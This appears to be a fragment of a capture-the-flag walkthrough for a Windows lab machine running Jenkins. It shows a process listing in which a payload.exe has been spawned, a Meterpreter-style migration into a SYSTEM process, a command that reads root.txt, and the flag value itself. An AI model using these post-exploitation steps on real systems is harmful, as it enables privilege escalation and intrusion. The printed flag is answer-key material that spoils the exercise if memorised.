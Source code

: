 ```
 1348  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1432  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1456  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1484  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1648  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1716  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1772  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1820  1648  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1852  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1920  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1940  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2368  668   taskhost.exe          x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\taskhost.exe
 2384  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2576  2696  payload.exe           x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\payload.exe
 2696  1820  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2752  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 3012  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3048  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe

```
```
migrate 668
[*] Migrating from 2576 to 668...
[*] Migration completed successfully.
```
```
type C:\Windows\System32\config\root.txt
```

Read the root.txt file located at C:\Windows\System32\config: **dff0f748678f280250f25a45b8046b4a**